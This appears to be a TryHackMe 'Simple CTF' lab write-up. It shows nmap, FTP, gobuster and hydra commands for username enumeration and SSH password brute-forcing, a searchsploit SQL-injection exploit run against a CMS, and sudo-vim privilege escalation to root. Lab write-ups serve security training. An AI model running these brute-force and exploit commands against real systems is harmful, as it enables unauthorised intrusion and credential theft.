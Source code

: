 ```yaml
---
layout: solution
category: TryHackMe
contest_code: General
contest_name: General
problem_code: SIMPLE_CTF
problem_name: Simple CTF
comments: false
tags: security enumeration privesc
date: 2021-08-17
---
```


### An nmap scan was conducted on the machine and results shown that few services were running which included ftp, apache & ssh
```
nmap -sV -sC 10.10.82.183
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/nmap.png)

‎


### An attempt was made to log into ftp by using anonymous login which allowed us to retrieve a file. It tells us that a weak password was used for the system
```
ftp 10.10.82.183
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/ftp.png)

‎


### The website was visited however nothing was interesting thus gobutser was used to find for hidden directories and it was where we came across, few intresting directories. One of them was /simple which lead us to another web page
```
gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.82.183 -x php,html,txt
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/result1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/gobuster1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/result2.png)


‎


### **[Method 1]** Further enumeration was done on this page /simple by attempting to retrieve further hidden directories using gobuster. It then led us to an admin login page (/admin)
```
gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.82.183/simple -x php,html,txt
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/gobuster2.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/login.png)

‎


### **[Method 1]** We can attempt to use hydra on this page to crack the user and password however brute forcing 2 fields (username & password) simultaneously can take a very long time. Thus to overcome that, I clicked on "Forgot your password?"

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/username.png)

When we attempt to enter a wrong username, it redirects us back to the login page with an additional message "User Not Found"

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/incorrect_pass.png)

‎


### **[Method 1]** Thus I used hydra to retrieve the right username which in this was mitch
```
hydra -L xato-net-10-million-usernames.txt 10.10.82.183 -t 64 -e n http-post-form "/simple/admin/login.php?forogtpw=1:forgottenusername=^USER^&forgotpwform=1&loginsubmit=Submit:User Not found"
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/network_page.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/hydra.png)

‎


### **[Method 1]** After finding the right username we can attempt to crack the password using dictionary attack. However I have a choice of cracking it though the website or SSH. For this case I used ssh. Thus, I whipphed out hydra again and cracked the password using ssh. Turns out the password is "secret"
```
hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 10.10.82.183 ssh -t 64
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/hydra_result.png)

‎


### **[Method 2]** Further enumeration was done on this page /simple by attempting to retrieve further hidden directories using gobuster. It then led us to an install login page (/install.php)
```
gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.82.183/simple -x php,html,txt
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/gobuster3.png)

‎


### **[Method 2]** That install page was visited where it told us the version number of cms service which was 2.2.8

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/result3.png)

‎


### **[Method 2]** Searchsploit was used to find for any exploits for that service and version and turn out it was vulnerable to SQL injection thus the exploit tool was installed for execution. 
```
searchsploit -m php/webapps/46635.py
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/searchsploit.png)

‎


### **[Method 2]** Once the exploit was executed, the username and password was retrieved. 
```
python2 ./46635.py -u http://10.10.82.183/simple -w /usr/share/wordlists/rockyou.txt --crack
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/exploit_result.png)

‎


### I then logged into SSH with the following credentials obtained and retrieved the first flag

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/ssh.png)

‎


### To perform privilege escalation, I figured out the permissions user mitch has. Fortunately, he had permissions to execute vim as sudo without password. Thus, I executed vim with sudo and executed bash command inside vim to perform privilege escalation. Thus, it allowed me to retrieve the last flag in /root directory

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/priv1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/priv2.png)

<pre 
  class="command-line" 
  data-prompt="root@machine: " 
  data-output="2"
><code class="language-bash"># Bash script with shell
cat /root/root.txt
W3ll d0n3. You made it!
</code>
</pre> 
